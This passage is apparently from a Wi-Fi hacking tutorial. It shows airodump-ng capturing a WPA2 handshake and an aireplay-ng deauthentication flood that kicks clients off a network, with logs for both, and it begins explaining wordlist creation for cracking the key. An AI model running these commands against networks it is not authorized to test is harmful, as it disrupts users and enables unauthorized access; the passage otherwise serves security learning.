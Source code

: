 - Once, the handshake is captured, we can exit `airodump-ng` by pressing `Ctrl+C`. The handshake packets will be saved in the file we specified using the `-w` option.

- This handshake can be used to get the key for the network.

- Let's implement this practically, and see the actual logs in the scenario.

- Let's assume that there is no handshake happening on the target network, so we will deauthenticate a client from the network, and then capture the handshake packets. First, we will run the `airodump-ng` command to capture the packets.

  ```bash
  root@kali:~# airodump-ng --bssid WIFI_MAC --channel 36 -w capture wlan0
  07:30:14  Created capture file "capture-02.cap".
  
   CH 36 ][ Elapsed: 54 s ][ 2025-07-28 07:31 ][ WPA handshake: WIFI_MAC 
  
   BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
  
   WIFI_MAC  -18 100      544      281    0  36  780   WPA2 CCMP   PSK  WIFI_NAME
  
   BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
  
   WIFI_MAC  CLIENT_MAC1  -29    6e-24      1      272                           
   WIFI_MAC  CLIENT_MAC2  -24    6e- 6e     2      690                           
   WIFI_MAC  CLIENT_MAC3  -25    6e- 1e   141     3012  EAPOL                    
  Quitting...
  ```
  
- Than, use fake authentication attack to associate with the access point, so that we can send deauthentication packets to the clients, and as a result cause a handshake to happen.

  ```bash
  root@kali:~# aireplay-ng --deauth 1000000 -a WIFI_MAC -c CLIENT_MAC -D wlan0
  07:30:45  Sending 64 directed DeAuth (code 7). STMAC: [CLIENT_MAC] [15|88 ACKs]
  07:30:46  Sending 64 directed DeAuth (code 7). STMAC: [CLIENT_MAC] [ 3|64 ACKs]
  07:30:47  Sending 64 directed DeAuth (code 7). STMAC: [CLIENT_MAC] [ 0|64 ACKs]
  07:30:47  Sending 64 directed DeAuth (code 7). STMAC: [CLIENT_MAC] [ 4|64 ACKs]
  07:30:48  Sending 64 directed DeAuth (code 7). STMAC: [CLIENT_MAC] [ 0|64 ACKs]
  ```
  
- Exit the airodump-ng command as soon as you see the `WPA handshake` message in the logs. This means that the handshake packets are captured and saved in the file we specified using the `-w` option.

## Creating a Wordlist

- So, far we have learnt that the only packets that are useful for cracking the WPA/WPA2 key are the handshake packets. We have also learnt how to capture these packets using `airodump-ng` and `aireplay-ng`.

- Now, handshake packets doesnot contain any information that can help us to recover or recalculate the WPA-KEY. The information in it can only be used to check whether a password is valid or not. 

- Therefore, what we are going to do is create a wordlist, which is basically a big text file that contains a large number of passwords. Than go through this file, passwords one by one, and use them with the handshake inorder to check whether the password is valid or not. We can download ready wordlist from internet, but here we will create our own word list.
